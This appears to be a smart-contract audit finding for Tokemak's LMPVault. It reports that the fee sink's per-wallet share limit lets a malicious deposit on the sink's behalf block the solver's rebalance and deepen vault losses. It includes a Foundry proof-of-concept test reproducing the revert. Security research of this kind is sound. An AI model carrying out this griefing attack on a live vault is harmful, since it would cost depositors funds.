 Formal Magenta Okapi

medium

# The `sink` address should not have  a `perWalletLimit`
## Summary

The `sink` address should not have a `perWalletLimit`

## Vulnerability Detail
In case this line `if (fees > 0 && sink != address(0))` is  `true` in [_collectFees()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L820-L823)
and `perWalletLimit > 0`

the address of the fee receiver (sink) could reach the `perWalletLimit` after a period of time by the accumulated fees or a malicious user could deposit on his behalf (this action could losses deepen for LMPVault )

so the [_beforeTokenTransfer()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L834-L852) hook will revert with **OverWalletLimit** error if the **SOLVER** try to `rebalance()`/`flashRebalance()` + no one can invoke `updateDebtReporting()` secssufuly 

In case the LMPVault has a small quantity in `totalIdle`. and the `withdrawalQueue` start with DestinationVault X.
If the LMPVault is sitting at a loss (in DestinationVault X) the malicious user could deposit on behalf of the sink (could be a small amount). This will block the **SOLVER** temporarily from the rebalancing.

Now Any user could `withdraw()` from DestinationVault X without limits.
In normal case [this paert](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/libs/LMPDebt.sol#L275-L280) will compute how much should this user pull from DestinationVault X
But in this scenario, the `destinationInfo` isn't updated 

## Impact
-  **SOLVER**  is not able to `rebalance()`/`flashRebalance()` (POC_07)
- Malicious users could force LMP Vault to losses deepen in Destination Vault (By withdrawing all the needs of funds from a DV sit on loss)

## Code Snippet

Please copy the following POC in `LMPVault-Withdraw.t.sol`
```solidity
 function test_POC_07_Over_Wallet_Limit() public {
        address user_01 = vm.addr(101);
        address user_02 = vm.addr(102);
        vm.label(user_01, "User_01");
        vm.label(user_02, "User_02");
        _accessController.grantRole(Roles.SOLVER_ROLE, address(this));
        _accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));

        // Setting a sink 
        address feeSink = vm.addr(555);
        vm.label(feeSink, "feeSink");
        _lmpVault.setFeeSink(feeSink);
        // Setting a fee
        _lmpVault.setPerformanceFeeBps(2000); // 20%
        //Set the per-wallet share limit
        _lmpVault.setPerWalletLimit(500);

        //User_01 `deposit()`
        vm.startPrank(user_01);
        _asset.mint(user_01, 500);
        _asset.approve(address(_lmpVault), 500);
        _lmpVault.deposit(500, user_01);
        vm.stopPrank();

        //User_02 `deposit()`
        vm.startPrank(user_02);
        _asset.mint(user_02, 500);
        _asset.approve(address(_lmpVault), 500);
        _lmpVault.deposit(500, user_02);
        vm.stopPrank();

        // Queue up some Destination Vault rewards
        _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
        _accessController.grantRole(Roles.LIQUIDATOR_ROLE, address(this));
        _asset.mint(address(this), 2000);
        _asset.approve(_destVaultOne.rewarder(), 2000);
        IMainRewarder(_destVaultOne.rewarder()).queueNewRewards(2000);

        // At time of writing LMPVault always returned true for verifyRebalance
        // Rebalance 500 baseAsset for 250 underlyerOne+destVaultOne
        uint256 assetBalBefore = _asset.balanceOf(address(this));
        _underlyerOne.mint(address(this), 500);
        _underlyerOne.approve(address(_lmpVault), 500);
        _lmpVault.rebalance(
            address(_destVaultOne),
            address(_underlyerOne), // tokenIn
            250,
            address(0), // destinationOut, none when sending out baseAsset
            address(_asset), // baseAsset, tokenOut
            500
        );
        uint256 assetBalAfter = _asset.balanceOf(address(this));

        // LMP Vault is correctly tracking 500 remaining in idle, 500 out as debt
        uint256 totalIdleAfterFirstRebalance = _lmpVault.totalIdle();
        uint256 totalDebtAfterFirstRebalance = _lmpVault.totalDebt();
        assertEq(totalIdleAfterFirstRebalance, 500, "totalIdleAfterFirstRebalance");
        assertEq(totalDebtAfterFirstRebalance, 500, "totalDebtAfterFirstRebalance");
        // The destination vault has the 250 underlying
        assertEq(_underlyerOne.balanceOf(address(_destVaultOne)), 250);
        // The lmp vault has the 250 of the destination
        assertEq(_destVaultOne.balanceOf(address(_lmpVault)), 250);
        // Ensure the solver got their funds
        assertEq(assetBalAfter - assetBalBefore, 500, "solverAssetBal");

        //to simulate the accumulative fees in `sink` address. User_01 `deposit()` to `sink`
        vm.startPrank(user_01);
        _asset.mint(user_01, 500);
        _asset.approve(address(_lmpVault), 500);
        _lmpVault.deposit(500, feeSink);
        vm.stopPrank();

        // Rebalance some of the baseAsset back
        // We want 200 of the base asset back from the destination vault
        // For 100 of the destination 
        uint256 balanceOfUnderlyerBefore = _underlyerOne.balanceOf(address(this));

        // Roll the block so that the rewards we queued earlier will become available
        vm.roll(block.number + 100);

        //_lmpVault.updateDebtReporting(_destinations);
        console.log("Fee receiver Balance:",_lmpVault.balanceOf(feeSink));
        // `rebalance()`
        _asset.mint(address(this), 200);
        _asset.approve(address(_lmpVault), 200);

        vm.expectRevert(); // <== expectRevert
        _lmpVault.rebalance(
            address(0), // none when sending in base asset
            address(_asset), // tokenIn
            200,
            address(_destVaultOne), // destinationOut
            address(_underlyerOne), // tokenOut
            100
        );
    }
```


## Tool used

Manual Review - Foundry 

## Recommendation
`sink` address (fee receiver) should not have a limit per wallet